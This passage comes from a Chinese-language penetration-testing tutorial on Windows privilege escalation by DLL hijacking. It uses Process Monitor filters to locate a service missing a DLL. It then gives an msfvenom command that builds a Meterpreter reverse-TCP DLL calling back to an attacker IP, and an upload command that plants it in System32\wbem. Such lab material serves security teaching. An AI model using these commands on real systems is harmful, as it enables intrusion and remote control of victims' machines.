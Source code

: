    图 8.29 – 进程监视器路径过滤器

1.  在添加了两个过滤器之后，您的过滤器配置应类似于以下截图中的配置：![图 8.30 – 进程监视器过滤器    ](img/B17389_08_030.jpg)

    图 8.30 – 进程监视器过滤器

    设置好过滤器后，可以通过点击 `Apply` 按钮应用过滤器，如前面的截图所示。

    这些过滤器将仅显示缺失 DLL 的服务及其相应的 DLL 名称。在这种情况下，我们可以识别出易受攻击的服务以及缺失的 DLL 名称及其相应的路径，如以下截图所示：

    ![图 8.31 – 进程监视器缺失 DLL    ](img/B17389_08_031.jpg)

    图 8.31 – 进程监视器缺失 DLL

    现在我们可以生成我们的自定义 DLL，当执行时，它将为我们提供一个 Meterpreter 会话。

1.  我们可以使用 `msfvenom` 生成自定义 DLL，并通过在 Kali 中运行以下命令来使用 Meterpreter 有效载荷：

    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=PORT -f dll > hijackme.dll`

    我们将保存自定义 DLL 文件，命名为缺失 DLL 的名称，用于 `dllhijackservice.exe` 服务。对于我们的情况，我们将劫持 `hijackme.dll` DLL。

1.  在生成自定义 DLL 后，我们可以将其传输到目标系统的相应服务路径中。对于我们的情况，路径将如下所示：

    `C:\Windows\System32\wbem`

    我们可以通过运行以下命令，使用 Meterpreter 上传自定义 DLL：

    `upload /PATH-TO-DLL/hijackme.dll`

    如下图所示，`hijackme.dll` 文件应该被上传到正确的路径：

    ![图 8.32 – 上传自定义 DLL    ](img/B17389_08_032.jpg)

